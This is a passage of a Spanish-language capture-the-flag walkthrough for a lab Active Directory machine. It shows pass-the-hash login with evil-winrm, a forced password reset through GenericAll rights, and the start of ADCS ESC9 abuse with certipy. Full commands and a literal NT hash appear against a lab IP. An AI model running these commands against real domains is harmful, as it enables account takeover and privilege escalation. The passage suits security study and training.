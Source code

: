 Finalmente, con la herramienta **getnthash.py** proporcionandole el tgt obtendremos el hash NT del usuario management\_svc.

![Pic]({{ '/assets/img/certified/13pic.png' | relative_url }}){: .center-image }

Podríamos comprobar si el usuario management\_svc pertenece al grupo "Remote Management Users" y por ende si nos podemos conectar usando **evil-winrm**, pero en bloodhound ya vimos previamente que si es miembro del grupo.


```sh
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

![Pic]({{ '/assets/img/certified/14pic.png' | relative_url }}){: .center-image }

## Escalada de Privilegios

Una vez en la máquina, si buscamos con **Certify.exe** por certificados vulnerables no nos reportará nada, probando con **[Certipy.py](https://github.com/ly4k/Certipy)** (su versión en python) con las credenciales de Judith, tampoco encontramos nada y las dos opciones que nos da BloodHound para escalar privilegios tampoco nos sirve, asi que seguimos enumerando.

En BloodHound podemos ver como management\_svc tiene "GenericAll" o control total sobre el usuario **ca_operator**, esto se puede abusar de múltiples formas pero la más sencilla y eficaz sería cambiarle la contraseña.

```powershell
Set-ADAccountPassword -Identity "ca_operator" -NewPassword (ConvertTo-SecureString "pass123" -AsPlainText -Force) -Reset
```

ca\_operator tampoco es miembro del grupo "Remote Management Users" y aunque no nos sirva para conectarnos, podemos probar a buscar certificados vulnerables con su cuenta.

```sh
certipy find -u ca_operator -p pass123 -dc-ip 10.10.11.41
```

Esto nos generará dos archivos, abriendo cualquiera de ellos veremos que se encontró una plantilla vulnerable.

![Pic]({{ '/assets/img/certified/16pic.png' | relative_url }}){: .center-image }

Para explotar esto podemos ver la documentación de certipy, que nos redirige a [este blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7) donde se ve el mismo caso, ESC9.

Como dicta el blog, el primer paso es obtener un usuario que tenga el permiso "GenericWrite" sobre otro, en nuestro caso management\_svc lo tiene sobre ca\_operator. En este caso, a ca\_operator se le permite inscribirse a la plantilla "CertifiedAuthentication". Ahora vamos a cambiar el UPN o "UserPrincipalName" de ca\_operator a administrator.

```sh
certipy account update -username management_svc -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator -target 10.10.11.41
```
